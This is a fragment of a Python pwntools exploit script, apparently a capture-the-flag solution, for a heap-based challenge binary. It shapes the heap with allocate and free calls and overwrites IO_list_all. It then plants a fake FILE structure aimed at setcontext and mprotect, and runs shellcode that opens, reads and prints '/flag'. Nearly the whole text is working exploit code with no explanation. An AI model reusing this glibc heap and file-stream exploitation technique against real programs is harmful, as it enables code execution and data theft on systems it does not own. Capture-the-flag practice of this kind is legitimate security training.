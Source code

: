 ```py
    Add(0x20,p64(0x31)*4)#12
    Add(0x20,p64(0x31)*4)#13

    Add(0x20,p64(0)+p64(0xa1))#14

    Delete(3)
    Add(0x30)#15
    Add(0x70)#16
    #change small bin

    Delete(13)


    Delete(10)
    Delete(13)

    Add(0x20,p64(heap_base+0xd0-0x20))#17

    Add(0x20)#18
    Add(0x20)#18



    Add(0x20,p64(0)+p64(0x311))



    Delete(10)
    Add(0x20,p64(0)+p64(0x151))
    Delete(8)
    Delete(15)

    Add(0x140,p64(0x31)*(0xa0/8)+p64(0)+p64(0x311)+p64(0)+p64(IO_list_all-0x10))
    #
    IO_str_j = libc.sym['_IO_file_jumps']+0xc0
    print hex(IO_str_j)
    setcontext = libc.sym['setcontext']+53
    map_addr = libc.sym['mprotect']
    heap_base = heap_base - 0x20
    fake_io = p64(0)*4+p64(0)+p64(heap_base)+p64(0x1000)+p64(0)+p64((heap_base+0xf0-100)/2)+p64(7)+p64(0xdadaddaaddddaaaa)*2+p64(heap_base+0x220)+p64(map_addr)+p64(0x0)*6+p64(0)+p64(0xdadaddaaddddaaaa)*6+p64(IO_str_j)+p64(setcontext)
    lis = [str(heap_base+0x228),str(heap_base+0x10),str(heap_base+0x10)]
    sc = "/flag"+"\x00"*11+asm('''
            mov rsi,{0[0]}
            xor rdi,rdi
            xor rdx,rdx
            mov rax,257
            syscall
            mov rdi,3
            mov rsi,{0[1]}
            mov rdx,48
            mov rax,0
            syscall
            mov rdi,1
            mov rsi,{0[2]}
            mov rdx,48
            mov rax,1
            syscall
            '''.format(lis))
    Add(0x300,p64(0)*4+p64(0)+p64(0x61)+p64(0)*2+fake_io+p64(0x31)+p64(heap_base+0x238)+sc)
    #gdb.attach(p,'b* setcontext+53')
    p.sendlineafter(">> ","4")
```